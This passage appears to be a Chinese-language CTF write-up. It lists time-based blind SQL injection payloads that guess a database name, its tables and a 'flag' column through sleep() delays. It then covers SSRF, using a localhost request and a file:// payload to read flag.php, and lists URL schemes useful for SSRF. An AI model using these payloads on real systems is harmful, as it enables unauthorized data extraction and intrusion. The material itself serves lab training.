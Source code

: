 1 and if(length(database())=4,sleep(3),1)      库名长度

1 and if(ascii(substr(database(),1,1))>110,sleep(3),1)
1 and if(ascii(substr(database(),2,1))=113,sleep(3),1)	    猜库名

1 and if((select count(table_name) from information_schema.tables where table_schema=database())=2,sleep(3),1)      表的数量

1 and if(ascii(substr((select table_name from information_schema.tables  where table_schema=database() limit 0,1),1,1))=110,sleep(3),1)  表一名

1 and if(ascii(substr((select table_name from information_schema.tables  where table_schema=database() limit 1,1),1,1))=102,sleep(3),1) 表二名

1 and if((select count(column_name) from information_schema.columns where table_name='flag')=1,sleep(3),1)   猜字段长度

1 and if(ascii(substr((select column_name from information_schema.columns where table_name='flag'),1,1))=102,sleep(3),1)  猜字段名为flag

## 5.SSRF 内网访问

![image-20241015181853840](D:\ctf wp\40.1.assets\image-20241015181853840.png)

靶机网址

![image-20241015181922447](D:\ctf wp\40.1.assets\image-20241015181922447.png)

​        输入 /?url=http://127.0.0.1/flag.php 访问

## 6.伪协议读取文件

伪协议类型（https://www.cnblogs.com/-mo-/p/11673190.html）
file:///  这种URL Schema可以尝试从文件系统中获取文件：
dict://  这种能够引用允许通过DICT协议使用的定义或单词列表：
sftp://  在这里，Sftp代表SSH文件传输协议（SSH File Transfer Protocol），或安全文件传输协议（Secure File Transfer Protocol），这是一种与SSH打包在一起的单独协议，它运行在安全连接上，并以类似的方式进行工作
ldap://  LDAP代表轻量级目录访问协议。它是IP网络上的一种用于管理和访问分布式目录信息服务的应用程序协议。
tftp://  简单的基于lockstep机制的文件传输协议，它允许客户端从远程主机获取文件或将文件上传至远程主机。
gopher://  分布式文档传递服务。利用该服务，用户可以无缝地浏览、搜索和检索驻留在不同位置的信息

![image-20241015182222926](D:\ctf wp\40.1.assets\image-20241015182222926.png)

网站的目录一般都在/var/www/html/，我们由此构造payload：

 ?url=file:///var/www/html/flag.php

![image-20241015182929031](D:\ctf wp\40.1.assets\image-20241015182929031.png)

查看源代码![image-20241015183027209](D:\ctf wp\40.1.assets\image-20241015183027209.png)



## 7.端口扫描
